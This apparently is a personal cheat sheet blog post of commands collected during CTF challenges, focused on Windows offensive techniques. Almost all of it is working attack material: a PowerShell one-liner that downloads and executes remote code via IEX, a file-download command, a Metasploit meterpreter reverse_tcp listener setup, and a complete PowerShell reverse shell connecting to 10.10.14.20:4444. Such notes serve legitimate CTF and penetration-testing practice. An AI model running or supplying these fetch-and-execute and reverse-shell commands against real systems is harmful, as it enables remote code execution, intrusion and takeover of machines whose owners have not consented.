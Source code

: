 ```yaml
---
title: Cheat Sheet
published: true
---
```


This is a Cheat sheet with misc stuff that i have collected doing different CTF's. This blogpost will be updated with more content... and maybe with an index to find stuff more easy.

## [](#header-2)Windows

### [](#header-3)Local priv esc

A good reference for Windows local priv esc.
 
<a href>https://book.hacktricks.xyz/windows/windows-local-privilege-escalation</a>


### [](#header-3)Download files

Read and execute a file from a weblink.

```
Powershell IEX(New-Object Net.WebClient).DownloadString('http://IP:PORT/FILENAME')
```

Download and output a file.

```
Powershell Invoke-WebRequest -Uri IPNUMMER:PORT/FILNAMN -OutFile FILENAME
```



### [](#header-3)Listener in Metasploit

Quick onliner for setting up a listener in Metasploit for reverse shell for Windows.

```
sudo msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.10; set lport 4444; set ExitOnSession false; exploit -j"
```



### [](#header-3)Powershell reverse shell

A powershell onlineliner for a reverse shell.

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.20",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
